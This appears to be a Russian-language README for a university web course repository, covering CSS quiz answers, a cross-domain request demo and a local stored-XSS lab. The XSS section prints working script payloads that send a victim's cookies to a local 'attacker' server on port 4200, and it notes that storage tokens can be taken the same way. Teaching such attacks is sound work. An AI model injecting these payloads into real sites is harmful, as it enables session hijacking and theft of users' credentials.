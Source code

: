 # urfu-web
A repository to hold web and dhtml course @ urfu

# 1. CSS:

Ответы на тест: 

`1 а) 2 в)`

# 2. CROSS-DOMAIN:

Базовая папка: `./cross-domain`

1. Запустить сервера 3000 и 4200

`node 3000.js`

`node 4200.js`

2. Открываем `127.0.0.1:3000` и нажимаем на кнопки

В сети в это время будут происходить кроссдоменные запросы.

# 3. XSS

Базовая папка: `./xss`

1. Запускаем сервера сайта(порт 3000) и злоумышленника(4200)

`npm install`

`node 3000.js`

`node 4200.js`

2. Переходим на форму: `127.0.0.1:3000/register`
3. Злоумышленик вводит в форму зловредный скрипт, например

```javascript
 <script>alert('your cookies have been stolen'); let stealImg = document.createElement('img');stealImg.src = 'http://127.0.0.1:4200/steal?cookie=' + document.cookie;document.body.appendChild(stealImg);</script>
 <img id="stealImg" width='0px' height='0px'><img src='' onerror="stealImg.src='http://127.0.0.1:4200/steal?cookie=' + document.cookie;">
```

4. Жертва переходит на `localhost:3000/register` и заполняет данные.
5. Жертву редиректят на тред комментариев к посту, скрипт злоумышленика подгружается как комментарий.

Что произошло?

С помощью XSS атаки через несуществующее изображение злоумышленик похитил куки у жертвы.
Стоит сказать, что дополнительно таким образом можно похитить данные sessionstorage/localstorage, в которых часто хранят различные токены



